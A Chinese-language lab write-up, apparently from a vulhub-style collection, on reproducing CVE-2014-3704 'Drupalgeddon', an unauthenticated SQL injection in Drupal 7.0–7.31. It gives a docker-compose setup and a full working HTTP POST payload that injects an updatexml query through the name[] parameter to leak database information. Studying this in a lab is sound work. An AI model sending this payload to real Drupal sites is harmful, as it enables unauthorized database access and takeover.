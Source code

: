 （CVE-2014-3704）Drupal \< 7.32 "Drupalgeddon" sql注入漏洞
==========================================================

一、漏洞简介
------------

Drupal
是一款用量庞大的CMS，其7.0\~7.31版本中存在一处无需认证的SQL漏洞。通过该漏洞，攻击者可以执行任意SQL语句，插入、修改管理员信息，甚至执行任意代码。

二、漏洞影响
------------

Drupal 7.0\~7.31

三、复现过程
------------

### 漏洞环境

执行如下命令启动Drupal 7.31环境：

    docker-compose up -d

环境启动后，访问`http://your-ip:8080`即可看到Drupal的安装页面，使用默认配置安装即可。

其中，Mysql数据库名填写`drupal`，数据库用户名、密码为`root`，地址为`mysql`：

![](resource/(CVE-2014-3704)Drupal7.32“Drupalgeddon”sql注入漏洞/media/rId25.png)

安装完成后，访问首页：

![](resource/(CVE-2014-3704)Drupal7.32“Drupalgeddon”sql注入漏洞/media/rId26.png)

### 漏洞复现

该漏洞无需认证，发送如下数据包即可执行恶意SQL语句：

    POST /?q=node&destination=node HTTP/1.1
    Host: your-ip:8080
    Accept-Encoding: gzip, deflate
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 120

    pass=lol&form_build_id=&form_id=user_login_block&op=Log+in&name[0 or updatexml(0,concat(0xa,user()),0)%23]=bob&name[0]=a

可见，信息已被爆出：

![](resource/(CVE-2014-3704)Drupal7.32“Drupalgeddon”sql注入漏洞/media/rId28.png)

参考链接
--------

> https://vulhub.org/\#/environments/drupal/CVE-2014-3704/

